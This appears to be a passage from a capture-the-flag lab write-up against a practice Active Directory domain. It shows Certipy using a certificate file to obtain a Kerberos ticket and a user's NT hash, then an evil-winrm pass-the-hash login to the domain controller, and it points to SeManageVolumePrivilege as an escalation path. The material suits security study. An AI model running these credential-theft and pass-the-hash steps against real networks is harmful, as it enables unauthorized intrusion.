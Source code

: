 ```
~$ certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '<IP>'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

<p class="indent-paragraph">
To assess the effective permissions and security context of the compromised user <code>ryan.k</code><span class="codefix">,</span> the command <code>whoami /all</code> was executed via <code>evil-winrm</code><span class="codefix">.</span> The output confirmed that the account is a member of several local and domain-level groups, including the <code>Domain Storage Managers</code><span class="codefix">,</span> a group often associated with elevated storage management capabilities<span class="codefix">.</span> More importantly, the privileges section revealed the presence and active state of <code>SeManageVolumePrivilege</code><span class="codefix">,</span> which allows a user to perform volume-level maintenance tasks<span class="codefix">.</span> This privilege, combined with the group memberships, indicates a potential vector for privilege escalation through abuse of volume operations or storage-related attack paths<span class="codefix">.</span>
</p>

```
~$ evil-winrm -i DC01.certificate.htb -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6                   
                                        
Evil-WinRM shell v3.7

*Evil-WinRM* PS C:\Users\Ryan.K> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
```